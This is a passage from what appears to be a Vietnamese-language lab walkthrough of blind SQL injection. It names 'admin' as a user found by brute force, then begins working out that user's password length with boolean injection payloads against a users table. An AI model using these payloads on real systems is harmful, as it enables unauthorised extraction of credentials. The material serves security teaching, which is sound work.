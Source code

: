       ![](./images/19-32-42.png)

      ![](./images/19-44-20.png)
      > Kết quả sau khi tấn công brute-force thì ta biết được *user đầu tiên* là ***admin***

      Làm tương tự với các **user** còn lại trong table `users` 

   -  Dò tìm `password` tương ứng với `username` tìm được

      Trong bước này, ta sẽ dò tìm *password* của *user* **admin** vừa tìm được ở bước trước. 

      Đầu tiên ta sẽ xác định độ dài của password
      ```
      1' AND LENGTH((SELECT password FROM users WHERE user = 'admin')) > 50 -- -
      ```

      ![](./images/21-40-49.png)
      > Từ kết quả ta thấy độ dài *password* nằm trong khoảng (0-50)
      ```
      1' AND LENGTH((SELECT password FROM users WHERE user = 'admin')) > 25 -- -
      ```